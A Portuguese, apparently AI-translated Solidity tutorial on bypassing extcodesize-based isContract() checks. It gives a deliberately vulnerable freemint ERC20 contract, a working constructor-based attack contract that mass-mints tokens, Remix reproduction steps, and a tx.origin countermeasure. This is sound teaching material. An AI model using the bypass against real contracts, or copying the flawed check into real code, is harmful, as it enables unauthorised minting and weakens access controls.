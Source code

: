 # Segurança do Contrato Solidity: S08. Bypass da Verificação do Contrato

Recentemente, tenho revisado meus conhecimentos em Solidity, reforçando os detalhes e escrevendo um "Guia Simplificado do WTF Solidity" para iniciantes (os programadores experientes podem buscar outros tutoriais). Atualizarei o guia com 1-3 lições por semana.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo no WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTF-Solidity)

---

Nesta lição, vamos falar sobre como contornar a verificação do comprimento do contrato e apresentar métodos de prevenção.

## Bypass da Verificação do Contrato

Muitos projetos freemint utilizam a função `isContract()` para limitar a chamada do `msg.sender` a apenas contas externas (EOA), e não a contratos. Essa função usa o método `extcodesize` para obter o comprimento do `bytecode` armazenado no endereço (em tempo de execução). Se esse comprimento for maior do que zero, é considerado um contrato; caso contrário, é uma conta EOA (usuário).

```solidity
    // Verifica se é um contrato usando extcodesize
    function isContract(address account) public view returns (bool) {
        // Um endereço com extcodesize > 0 é considerado um contrato
        // Porém, durante a chamada do construtor do contrato, extcodesize é 0
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }
```

No entanto, há uma vulnerabilidade: quando um contrato está sendo criado, o `bytecode` de tempo de execução ainda não foi armazenado no endereço, portanto o comprimento do `bytecode` é 0. Isso significa que se colocarmos a lógica no construtor do contrato, podemos contornar a verificação do `isContract()`.

## Exemplo de Vulnerabilidade

Aqui está um exemplo: o contrato `ContractCheck` é um contrato ERC20 freemint, e a função de mintagem `mint()` utiliza a função `isContract()` para impedir chamadas de contrato a fim de evitar a mintagem em massa por programadores. Cada chamada do `mint()` pode criar 100 tokens.
 
```solidity
// Verifica se é um contrato usando extcodesize
contract ContractCheck is ERC20 {
    // Construtor: inicializa o nome e o símbolo do token
    constructor() ERC20("", "") {}
    
    // Verifica se é um contrato usando extcodesize
    function isContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // Função de mintagem, apenas chamadas de contas não-contratuais são permitidas (com vulnerabilidade)
    function mint() public {
        require(!isContract(msg.sender), "Contrato não permitido!");
        _mint(msg.sender, 100);
    }
}
```

Vamos criar um contrato de ataque que chama repetidamente a função `mint()` do contrato `ContractCheck` no construtor, realizando a mintagem de 1000 tokens em massa: 

```solidity
// Ataque aproveitando as características do construtor
contract NotContract {
    bool public isContract;
    address public contractCheck;

    // Quando o contrato está sendo criado, extcodesize (comprimento do código) é 0, então não será detectado por isContract().
    constructor(address addr) {
        contractCheck = addr;
        isContract = ContractCheck(addr).isContract(address(this));
        // Isso funcionará
        for(uint i; i < 10; i++){
            ContractCheck(addr).mint();
        }
    }

    // Após a criação do contrato, extcodesize > 0, isContract() consegue detectar
    function mint() external {
        ContractCheck(contractCheck).mint();
    }
}
```

Se nossa hipótese estiver correta, chamadas da função `mint()` no construtor podem contornar a verificação do `isContract()` e realizar a mintagem com sucesso, e o estado da variável `isContract` será definido como `false`. Após a criação do contrato, quando o `runtime bytecode` já estiver armazenado, o `extcodesize > 0` e o `isContract()` serão capazes de evitar a mintagem, resultando em falha ao chamar a função `mint()`.

## Reprodução no Remix

1. Deploy do contrato `ContractCheck`.

2. Deploy do contrato `NotContract`, passando o endereço do contrato `ContractCheck` como parâmetro.

3. Use a função `balanceOf` do contrato `ContractCheck` para verificar o saldo de tokens do contrato `NotContract` como `1000`, indicando um ataque bem-sucedido.

4. Chame a função `mint()` do contrato `NotContract`; como o contrato já foi criado, a chamada da função `mint()` irá falhar.

## Medidas Preventivas

Você pode usar `(tx.origin == msg.sender)` para verificar se o chamador é um contrato. Se o chamador for uma EOA, `tx.origin` e `msg.sender` serão iguais; se forem diferentes, o chamador será um contrato.

```solidity
function realContract(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```

## Conclusão

Nesta lição, discutimos como é possível contornar a verificação do comprimento do contrato e apresentamos métodos preventivos. Se o comprimento do `extcodesize` de um endereço for maior que zero, é um contrato; mas se for zero, o endereço pode ser tanto uma EOA quanto um contrato em processo de criação.

<!-- This file was translated using AI by repo_ai_translate. For more information, visit https://github.com/marcelojsilva/repo_ai_translate -->